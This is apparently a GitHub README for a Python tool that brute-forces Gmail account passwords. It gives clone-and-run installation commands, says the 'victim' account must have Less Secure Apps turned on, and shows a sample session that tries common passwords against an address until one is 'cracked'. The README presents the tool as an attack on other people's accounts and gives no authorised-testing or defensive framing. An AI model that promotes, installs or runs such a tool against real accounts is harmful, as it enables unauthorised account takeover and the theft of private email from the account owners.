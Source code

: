 
Most Powerful, Robust and Efficient tool on the Internet for bruteforcing Gmail accounts written in `python3`.

### Installation

**Pre requisties:** 
- [git](https://git-scm.com/downloads)
- [python3](https://www.python.org/downloads/)

1. For windows

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce
cd GmailBruteforce/
python3 main.py
```
1. For Mac/Linux

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce
cd GmailBruteforce/
chmod +x main.py
./main.py
```
## NOTE

In order to bruteforce any gmail account with this tool the victim account must have **Less Secure Apps** turned on.

For more details see [Why you need to turn ON less secure apps?](https://support.google.com/accounts/answer/6010255?hl=en)

Read this [article by devanswers](https://devanswers.co/allow-less-secure-apps-access-gmail-account/) to turn ON **Less secure apps.**

## Usage

**Pre requisties:**  

- Victim's Gmail account.
- Wordlist for bruteforcing.

This tool comes with a wordlist pre-installed.

```bash
┌──(kali㉿kali)-[~/GmailBruteforce]
└─$ python3 main.py

[?] Enter email adress: test@gmail.com
[?] Enter wordlist path: wordlist.txt
Starting bruteforcing...

[!] Incorrect password: 123456
[!] Incorrect password: 12345
[!] Incorrect password: 123456789
[!] Incorrect password: password                        
[!] Incorrect password: iloveyou
[!] Incorrect password: princess
[!] Incorrect password: 1234567                         
[!] Incorrect password: 12345678                        
[!] Incorrect password: abc123
[!] Incorrect password: nicole                          
[!] Incorrect password: daniel                         
[!] Incorrect password: babygirl                       
[!] Incorrect password: monkey
[!] Incorrect password: lovely
[!] Incorrect password: jessica
[!] Incorrect password: michael
[!] Incorrect password: ashley
[!] Incorrect password: qwerty
[!] Incorrect password: 111111
[!] Incorrect password: iloveu
[!] Incorrect password: 000000
[!] Incorrect password: michelle
[!] Incorrect password: tigger
[!] Incorrect password: sunshine
[+] Correct password: chocolate
[+] Password cracked!

[*] Script finished!
[*] Time Elapsed: 18 seconds.
```

You've to specify the Gmail address and path to wordlist in the input section.

## TODO

- Use proxies for better efficiency.
- Commamd line version with flags.

## Support

Having trouble with Tool? [Report an Issue](https://github.com/Sarthak2143/GmailBruteforce/issues/new).
